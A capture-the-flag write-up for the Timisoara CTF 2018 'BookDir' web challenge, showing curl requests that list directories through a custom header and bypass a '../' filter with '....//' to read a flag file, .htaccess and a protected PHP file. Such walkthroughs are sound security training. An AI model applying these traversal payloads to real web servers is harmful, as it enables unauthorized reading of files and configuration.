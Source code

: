 # CTF - 2018 - Timisoara CTF 2018 Quals / Web / BookDir

## Part 1 - 125 pts
- We get a list of book :
```
curl -H 'X-Dir: .' "http://89.38.210.129:8012/books/booklist.php"                                                                                                                                             
[{"name":"Beloved"},{"name":"Catch-22"},{"name":"Lolita"},{"name":"Nineteen Eighty-Four"},{"name":"The Catcher in the Rye"},{"name":"The Grapes of Wrath"},{"name":"The Great Gatsby"},{"name":"The Sound and the F
ury"},{"name":"Ulysses"}]
```

- We can go backward with ../
```
curl -H 'X-Dir: ../' "http://89.38.210.129:8012/books/booklist.php"                                                                                                                                           
[{"name":"4o4_fl4g_n0t_f0und.php"},{"name":"booklist.php"},{"name":"books.js"},{"name":"css"},{"name":"index.html"},{"name":"list"},{"name":"vendor"}]
```

- We find the `4o4_fl4g_n0t_f0und.php` and we will try to read it

- Using param f we can read file :
```
curl "http://89.38.210.129:8012/books/booklist.php?f=Beloved"                                                                                                                                 
"\"124 was spiteful. Full of baby's venom. The women in the house knew it and so did the children.\"\n"
```

- After some test, we found that  `../` is filtered and we need to double it to bypass `....//`:
```
curl "http://89.38.210.129:8012/books/booklist.php?f=....//4o4_fl4g_n0t_f0und.php"                                                                                                            
"<?php\n\/\/ timctf{f0und_f1rst_p4rt___wh4t_n3xt}\n\n\/\/ Can you get the second part? :^)\n"
```

- Demo here : [![asciicast](https://asciinema.org/a/cWNRvHjmR5wmIhsptmQBx2hJz.png)](https://asciinema.org/a/cWNRvHjmR5wmIhsptmQBx2hJz?speed=2)

## Part 2 - 75 pts
- We will try to read index.php :
```
curl "http://89.38.210.129:8012/books/booklist.php?f=....//....//index.php"                                                                                                                                   
"<?php\n\n\/\/ TRY HARDER\nheader('Location: books\/');\n"
```

- So let's try to get .htaccess :
```
curl "http://89.38.210.129:8012/books/booklist.php?f=....//....//.htaccess"                                                                                                                                   
"<Files .htaccess>\n  Order allow,deny\n  Deny from all\n<\/Files>\n\n<Files w0w_y0u_g0t_m3___.php>\n  Order allow,deny\n  Deny from all\n<\/Files>\n\nRewriteEngine On\nRewriteRule ^(?:books\/list)\\b.* \/403.ph
p\n"
```

- find `w0w_y0u_g0t_m3___.php`, let's read it :
```
curl "http://89.38.210.129:8012/books/booklist.php?f=....//....//w0w_y0u_g0t_m3___.php"                                                                                                                       
"<?php\n\n\/\/ timctf{b0Ok5_4r3_4m4z1ng}\necho 'c0ngr4ts!';\n"
```

- Flag \o/

- Demo here : [![asciicast](https://asciinema.org/a/8Sw5A1kr088QRstaQ7VSLuHGZ.png)](https://asciinema.org/a/8Sw5A1kr088QRstaQ7VSLuHGZ?speed=2)


- By team Beers4Flags

```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
